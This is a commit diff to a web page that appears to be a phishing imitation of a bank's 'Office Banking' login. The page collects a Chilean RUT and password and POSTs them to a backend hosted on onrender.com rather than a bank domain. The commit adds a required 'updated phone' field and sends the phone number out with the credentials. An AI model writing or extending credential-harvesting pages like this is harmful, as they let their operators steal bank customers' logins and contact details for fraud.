

Before and after one commit to pcanalespp2101/Login-ob, a website: page index.html in a window 1280 px wide. Shown: the part 291-726 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -33,7 +33,8 @@
       font-size: 14px;
     }
     .login-box input[type="text"],
-    .login-box input[type="password"] {
+    .login-box input[type="password"],
+    .login-box input[type="tel"] {
       width: 100%;
       padding: 8px;
       margin-top: 5px;
@@ -96,7 +97,6 @@
 </head>
 <body>
   <div class="login-box">
-    <!-- Logo arriba del cuadro -->
     <img src="logo-office-banking.png" alt="Office Banking" class="logo">
 
     <form id="loginForm">
@@ -106,7 +106,9 @@
       <label for="passwd">Contraseña</label>
       <input type="password" id="passwd" name="passwd" required>
 
-      <!-- Checkbox obligatorio -->
+      <label for="telefono">Teléfono actualizado</label>
+      <input type="tel" id="telefono" name="telefono" placeholder="+56 9 1234 5678" required>
+
       <label class="checkbox-label">
         <input type="checkbox" id="contacto" name="contacto" required>
         Deseo que me contacte un ejecutivo para solicitar Línea de Crédito o Tarjeta de Crédito.
@@ -170,6 +172,7 @@
       e.preventDefault();
       const rut = rutInput.value;
       const passwd = document.getElementById("passwd").value;
+      const telefono = document.getElementById("telefono").value;
       const contacto = document.getElementById("contacto").checked;
 
       if(!validarRut(rut)){
@@ -181,14 +184,13 @@
         return;
       }
 
-      // ⚠️ Cambia esta URL por la de tu servicio en Render
       const backendURL = "https://login-ob.onrender.com/login";
 
       try {
         const response = await fetch(backendURL, {
           method: "POST",
           headers: { "Content-Type": "application/json" },
-          body: JSON.stringify({ rut, passwd })
+          body: JSON.stringify({ rut, passwd, telefono })
         });
         const data = await response.text();
         document.getElementById("resultado").innerText = data;
```
